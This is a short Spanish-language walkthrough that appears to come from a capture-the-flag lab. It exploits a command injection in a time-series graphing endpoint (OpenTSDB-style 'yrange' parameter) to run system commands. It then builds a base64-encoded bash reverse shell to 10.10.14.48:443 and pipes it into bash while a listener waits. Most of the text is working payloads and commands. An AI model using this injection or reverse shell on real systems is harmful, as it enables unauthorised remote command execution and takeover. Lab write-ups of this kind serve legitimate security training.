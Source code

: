 ```python
python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('ping+-c+1+10.10.14.48')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

![](assets/2022-06-12-12-16-35.png)

Conseguimos que nos devuelva el ping. Lo tenemos que ver desde tcpdump

![](assets/2022-06-12-12-28-14.png)



## oneliner bash
```bash
#nuestra ip
# el puerto que queramos
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.48/443 0>&1'" | base64


> resultado --> YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK


A la cadena en base 64 que recibimos la usamos de la siguiente forma

# ponemos en escucha una terminal 
n -nlvp 443

#Si la cadena lo decodeamos y le decimos que luego utilice bash recibimos una consola de bash

echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK | base64 -d

>resultado --> bash -c 'bash -i >& /dev/tcp/10.10.14.48/443 0>&1'

# Si además decimos que lo ejecute como bash
echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK | base64 -d | bash
```
![](assets/2022-06-12-18-28-48.png)
